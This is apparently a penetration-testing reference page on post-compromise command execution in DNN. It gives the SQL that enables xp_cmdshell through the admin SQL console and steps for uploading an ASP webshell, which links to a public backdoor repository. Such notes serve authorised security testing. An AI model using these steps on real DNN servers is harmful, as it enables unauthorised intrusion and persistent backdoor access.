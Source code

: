 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# DNN

## RCE

### SQL Console

System command can be run via the built-in SQL console under the Settings menu.

```sql
# enable xp_cmdshell
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', '1' 
RECONFIGURE
```

After pressing `Run Script` OS commands can be executed.

```sql
xp_cmdshell 'whoami'
```

### ASP Webshell

If the `SuperUser` account is compromised, we can access the Security settings (Figure 1) and allow any file extensions needed so we can upload a webshell (Figure 2).&#x20;

<figure><img src="../../../.gitbook/assets/dnn_security_menu.png" alt=""><figcaption><p>Figure 1: Accessing the Security settings.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/dnn_allow_extensions.png" alt=""><figcaption><p>Figure 2: Add the desired file extensions.</p></figcaption></figure>

Upload a webshell, such as this [`.asp` webshell](https://raw.githubusercontent.com/backdoorhub/shell-backdoor-list/master/shell/asp/newaspcmd.asp) (Figure 3).

<figure><img src="../../../.gitbook/assets/dnn_upload.png" alt=""><figcaption><p>Figure 3: Uploiad the webshell.</p></figcaption></figure>

Get the file's URL by right-clicking and interact with the webshell.

<figure><img src="../../../.gitbook/assets/dnn_geturl.png" alt=""><figcaption><p>Figure 4: Get the URL and interact with the webshell.</p></figcaption></figure>

## Resources

{% tabs %}
{% tab title="DNN" %}
{% embed url="https://www.dnnsoftware.com/" %}
{% endtab %}
{% endtabs %}
